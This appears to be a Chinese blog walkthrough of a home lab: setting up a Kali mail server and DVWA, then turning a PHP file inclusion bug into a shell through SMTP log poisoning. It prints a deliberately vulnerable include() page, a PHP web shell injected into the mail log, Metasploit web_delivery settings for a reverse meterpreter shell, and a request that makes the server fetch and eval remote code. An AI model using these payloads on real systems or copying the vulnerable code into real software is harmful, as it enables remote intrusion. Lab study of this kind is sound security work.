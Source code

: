 ```yaml
---
layout:     post
title:      邮件服务器getshell
date:       2019-1-10
author:     Wh0ale
header-img: img/1.jpg
---
```


# 0x01环境搭建

测试环境

靶机：kali 安装SMTP服务

靶机IP： 192.168.211.179

安装教程：[https://xz.aliyun.com/t/3799#toc-2](https://xz.aliyun.com/t/3799#toc-2)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1iaah438j20hq0grq3h.jpg)

**Thunderbird安装**

①

```
sudo apt-get install thunderbird
```

②

1. 从[Thunderbird 下载页](https://getthunderbird.com/)将 Thunderbird 下载到 home 目录中。（这里我下载的是32bit，uname -a查看系统版本）
2. 打开**终端**，进入 home 目录：`cd ~`
3. 提取已下载文件包中的文件：`tar xjf thunderbird-*.tar.bz2`
4. 如果 Thunderbird 已打开，请先关闭它。
5. 要打开 Thunderbird，运行 thunderbird 文件夹中的 thunderbird 脚本：`~/thunderbird/thunderbird`

Thunderbird 随后会启动。您可以在桌面创建启动器来运行该命令。

**邮件服务器设置**

在刚才的链接中我们知道我们需要

```
/etc/hostname	将默认的主机名改为“ignite”
/etc/hosts		127.0.0.1 mail.ignite.lab ignite    设置一个本地服务器hostname=ignite
```

**添加邮件账户**

```
sudo adduser Wh0ale
Wh0ale@mail.ignite.lab
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1iq7at0gj20rl0hhju9.jpg)

**模拟发送短信**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1ioa1thij20zg0i0ada.jpg)

**dvwa搭建**

```
uname -a                                                     
root@ignite Linux ignite 4.14.0-kali3-686-pae #1 SMP Debian 4.14.17-1kali1 (2018-02-16) i686 GNU/Linux
```

因为kali3默认安装的版本为php.7.0，所以dvwa搭建一直没成功

所以我们进行如下操作

彻底卸载php版本

```bash
sudo aptitude purge `dpkg -l | grep php| awk '{print $2}' |tr "\n" " "`	
```

添加旧源

```bash
echo 'deb http://old.kali.org/kali sana main non-free contrib' >> /etc/apt/sources.list
apt-get update
```

 Debian 下将 PHP 安装入 Apache 2 的例子

```bash
apt-get install php5-common libapache2-mod-php5 php5-cli
```

取得 PHP 附加软件包的列表

```bash
apt-cache search php5
aptitude search php5
aptitude search php5 |grep -i mysql
```

安装 PHP 的 MySQL

```bash
apt-get install php5-mysql php5-curl
```

phpd的问题弄好，接下来直接安装dvwa

```bash
chmod -R 755 /var/www/html/dvwa
```

搭建数据出现如下错误

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1iyjo400j20ho0920ts.jpg)

**解决**

运行如下命令连接 MySQL ，默认是进入MariaDB，

```sql
mysql -uroot -p 
```

需要注意，此时需要输入的**密码默认是空**，不需要填写，直接Enter跳过即可

进入mysql，并将mysql的密码改为 **password**

```sql
use mysql；
update user set password=PASSWORD('xxxxxx') where User='root'; 
```

接着逐行进行如下命令行操作：

```sql
create user dvwa;
grant all on dvwa.* to dvwa@localhost identified by 'password';
flush privileges;
grant all on dvwa.* to 'dvwa'@'%';
flush privileges;
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1j2dvjhpj211r0ipwfx.jpg)



# 0x02 实战

存在文件包含漏洞的代码

```php
<?php

if(array_key_exists("rf", $_GET)){
    $page = $_GET['rf'];
    if($page != ''){
        include($page);
    }
}
else{
    echo '<script>window.location.href = "./incfile.php?rf="</script>';
}
?>

<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
    </head> 
    <body>
        <center>
            <h2>测试页： rf=include($input);</h2>
            <h3>----测试完毕后请立即删除----</h3>
        </center>
    </body>
</html>
```

**dvwa漏洞页面**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1j7iua85j211r0bkn05.jpg)



**STMP日志投毒**

```
nmap -p25 192.168.211.179
```



```
telnet 192.168.211.179 25
MAIL FROM:<rrajchandel@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1k12ugojj20ef067mxn.jpg)

这里遇到了些小问题

第一个是执行`telnet 192.168.211.179 25`的时候，目标有可能开着防火墙导致出现如下报错

```bash
~ # telnet 192.168.211.179 25                                     root@ignite Trying 192.168.211.179...
telnet: Unable to connect to remote host: Connection refused
```

**执行命令**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1jxapxa8j20yw0k4wga.jpg)



**联合MSF利用**

```bash
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 1
msf exploit (web_delivery)> set payload php/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.109
msf exploit (web_delivery)>set srvport  8888
msf exploit (web_delivery)>exploit
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1k4p3xwij20gw0nttc7.jpg)



```php
php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.211.179:8888/LkIB45CTfpH'));"
```

执行

```
http://192.168.211.179/dvwa/vulnerabilities/fi/?page=/var/log/mail.log&c=php%20-d%20allow_url_fopen=true%20-r%20%22eval(file_get_contents(%27http://192.168.211.179:8888/LkIB45CTfpH%27));%22
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1k5to3g5j20zk05mgmz.jpg)

**获得反向shell**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1k7hpfqqj20ho08eq3u.jpg)

整个复现流程很流畅，一些坑点都写在了上面，通过这篇文章我发现了文件包含漏洞的厉害之处，不仅在于邮件服务器这个姿势，可以和很多漏洞打组合拳,例如session文件包含，php伪协议，phar，还有软链接文件。之后在做渗透测试会多留意这块。





Reference:

[http://www.cnblogs.com/JetpropelledSnake/p/9128613.html](http://www.cnblogs.com/JetpropelledSnake/p/9128613.html)

[https://xz.aliyun.com/t/3799#toc-2](https://xz.aliyun.com/t/3799#toc-2)

